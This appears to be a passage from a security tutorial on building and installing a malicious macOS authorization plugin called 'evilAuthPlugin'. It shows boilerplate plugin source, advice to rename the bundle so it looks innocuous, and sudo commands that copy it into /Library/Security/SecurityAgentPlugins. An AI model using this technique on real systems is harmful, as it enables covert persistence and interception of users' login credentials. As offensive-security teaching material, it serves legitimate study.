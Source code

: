 ```objc
    free(inPlugin);
    return errSecSuccess;
}

OSStatus AuthorizationPluginCreate(
                                   const AuthorizationCallbacks *callbacks,
                                   AuthorizationPluginRef *outPlugin,
                                   const AuthorizationPluginInterface **outPluginInterface) {
    PluginRecord *plugin = (PluginRecord *)malloc(sizeof(PluginRecord));
    if (plugin == NULL) return errSecMemoryError;
    plugin->fMagic = kPluginMagic;
    plugin->fCallbacks = callbacks;
    *outPlugin = plugin;
    
    static AuthorizationPluginInterface pluginInterface = {
        kAuthorizationPluginInterfaceVersion,
        &PluginDestroy,
        &MechanismCreate,
        &MechanismInvoke,
        &MechanismDeactivate,
        &MechanismDestroy
    };
    *outPluginInterface = &pluginInterface;
    
    return errSecSuccess;
}
```

opening the project in XCode, there are some housekeeping items to be performed first.

![alt text](/plugin-info.png)

the `info.plist` shows the high-level details of the plugin, including the bundle name and bundle identifier. we'll change this to be something a little more innocuous.

![alt text](/plugin-name.png) 
 
![alt text](/plugin-bundleID.png)

note: the bundle name and identifier should match. 

build the project in XCode (Product -> Build), and then access the build via the Products directory on the left. when you find it in Finder, compress it and copy it over to the `/Library/Security/SecurityAgentPlugins` directory. once it's copied over, unzip it into the directory.

```bash
$ sudo cp evilAuthPlugin.bundle.zip /Library/Security/SecurityAgentPlugins

$ sudo unzip evilAuthPlugin.bundle.zip             
Archive:  evilAuthPlugin.bundle.zip
   creating: evilAuthPlugin.bundle/
   creating: evilAuthPlugin.bundle/Contents/
   creating: evilAuthPlugin.bundle/Contents/_CodeSignature/
   creating: evilAuthPlugin.bundle/Contents/MacOS/
  inflating: evilAuthPlugin.bundle/Contents/Info.plist  
  inflating: evilAuthPlugin.bundle/Contents/_CodeSignature/CodeResources  
  inflating: evilAuthPlugin.bundle/Contents/MacOS/evilAuthPlugin  
```
